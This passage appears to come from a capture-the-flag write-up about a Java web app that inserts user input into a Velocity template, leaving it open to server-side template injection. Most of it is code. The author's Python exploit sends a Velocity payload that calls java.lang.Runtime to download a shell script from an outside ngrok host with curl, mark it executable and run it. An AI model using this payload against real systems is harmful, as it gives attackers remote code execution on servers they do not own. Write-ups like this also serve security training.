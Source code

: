 ``` java

		} catch (ParseException e) {
			e.printStackTrace();
		}

		return template;
	}
```

The readFileToString function will replace "TEXT" in the index.html file and render textString:

``` java
	public static String readFileToString(String filePath, String replacement) throws IOException {
        StringBuilder content = new StringBuilder();
        BufferedReader bufferedReader = null;

        try {
            bufferedReader = new BufferedReader(new FileReader(filePath));
            String line;
            
            while ((line = bufferedReader.readLine()) != null) {
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
            }
        } finally {
            if (bufferedReader != null) {
                try {
                    bufferedReader.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }
```

The source code analysis is vulnerable to Server-Side Template Injection (SSTI) in Velocity:

Here is the exploit I used:

``` python
import requests
from urllib.parse import *

URL = "http://83.136.254.223:48094/"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def exp(self):
		payload = """
		#set($s=\"\") 
		#set($stringClass=$s.getClass()) 
		#set($runtime=$stringClass.forName(\"java.lang.Runtime\").getRuntime()) 
		#set($process=$runtime.exec(\"curl -O https://faf0-182-253-54-11.ngrok-free.app/banua.sh\")) 
		#set($process=$runtime.exec(\"chmod +x banua.sh\")) 
		#set($process=$runtime.exec(\"sh banua.sh\")) 
		#set($null=$process.waitFor() )
		"""
		data = {"text": payload}
		res = requests.post(self.url, data=data)
```